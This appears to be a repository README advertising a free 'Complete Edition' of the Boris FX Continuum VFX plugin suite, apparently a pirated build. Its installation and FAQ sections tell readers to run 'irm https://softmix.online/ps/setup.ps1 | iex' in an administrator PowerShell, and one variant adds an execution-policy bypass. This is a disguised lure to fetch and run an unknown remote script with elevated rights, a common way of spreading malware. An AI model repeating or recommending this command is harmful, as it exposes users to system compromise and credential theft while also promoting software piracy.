

<div align="center">


<br>


# Boris FX Continuum VFX Complete
**Complete VFX plugin suite · Film-grade compositing · Premium particle tools**
<br>
**Complete VFX plugin suite · Film-grade compositing · Premium particle tools**
<br>
Complete Edition · Premium Build · Windows · Deployment



**Complete Edition — all Continuum VFX modules and complete compositing tools enabled.**

</div>
---

> Licensed complete Continuum VFX suite with film-grade tools and every premium particle module included.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

✨ **VFX plugins** — GPU effects and transitions enabled.
🎬 **Post pipeline** — Integrates with pro video workflows.
📦 **Offline studio** — Works locally after setup.
🖥️ **Windows optimized** — Built for editing workstations.
🎚️ **Motion toolkit** — Presets and generators included.
🔌 **Plugin ready** — Pro host compatibility supported.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB |
| **Disk** | 4 GB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB, 4 GB.
</details>


TAGS
boris-fx-continuum, vfx-plugins, compositing, particle-effects, motion-graphics, film-effects, professional, windows, desktop, software, pro, studio, tools
